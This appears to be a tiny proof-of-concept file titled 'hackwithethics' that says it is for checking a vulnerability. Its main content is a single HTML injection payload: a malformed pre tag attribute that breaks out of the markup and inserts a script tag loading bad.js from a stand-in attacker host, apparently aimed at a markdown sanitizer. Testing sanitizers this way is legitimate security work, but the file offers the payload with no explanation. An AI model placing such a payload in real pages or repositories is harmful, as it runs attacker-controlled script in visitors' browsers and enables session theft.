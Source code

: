 # hackwithethics
user for check vulnerbility
<pre data-sourcepos=""%22 href="x"></pre><script src="https://attacker-site.com/bad.js"></script><pre x=""><code></code></pre>

